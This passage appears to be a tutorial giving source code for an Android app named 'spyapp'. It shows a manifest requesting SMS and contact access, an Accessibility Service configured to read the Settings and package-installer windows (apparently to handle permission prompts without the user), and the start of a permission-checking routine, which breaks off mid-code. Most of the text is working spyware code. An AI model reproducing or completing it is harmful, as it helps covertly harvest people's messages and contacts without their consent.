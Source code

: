 ### Configuration of the service

First thing to do is to add relevant permissions, and register the service in the Manifest:

> ```xml
><manifest xmlns:android="http://schemas.android.com/apk/res/android" package="xyz.noname.spyapp">
>	<uses-permission android:name="android.permission.READ_SMS"/>
>	<uses-permission android:name="android.permission.READ_CONTACTS"/>
>	<application
>	... >
>		<activity android:name=".activities.MainActivity">
>			<intent-filter>
>				<action android:name="android.intent.action.MAIN" />
>				<category android:name="android.intent.category.LAUNCHER" />
>			</intent-filter>
>		</activity>
>		<service android:name=".services.PermissionsService"
>			android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>			<intent-filter>
>				<action android:name="android.accessibilityservice.AccessibilityService"/>
>			</intent-filter>
>			<meta-data android:name="android.accessibilityservice"
>				android:resource="@xml/accessibility_config"/>
>		</service>
>	</application>
></manifest>
> ```

And in `accessibility_config.xml` I added the package `com.google.android.packageinstaller`, dealing with permissions:

> ```xml
><?xml version="1.0" encoding="utf-8"?>
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="xyz.noname.spyapp, com.android.settings, com.google.android.packageinstaller"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

### Checking permissions

At run time, it's necessary to check if a permission has been granted or not. To do this, I wrote the routine `Util.checkPermissions`, returning `true` if
all permissions requested in the Manifest are granted (except the one for the Accessibility Service itself).

> ```java
>public static boolean checkPermissions(Context context) {
>	PackageManager manager = context.getPackageManager();
>	PackageInfo info = null;
>	try {
>		info = context.getPackageManager().getPackageInfo(context.getPackageName(), PackageManager.GET_PERMISSIONS);
>	} catch (PackageManager.NameNotFoundException e) {
>		e.printStackTrace();
>	}
>	if (info!=null) {
>		for (String perm : info.requestedPermissions) {
>			if (PackageManager.PERMISSION_GRANTED != manager.checkPermission(perm, manager.getNameForUid(Binder.getCallingUid()))) {
>				return false;
>			}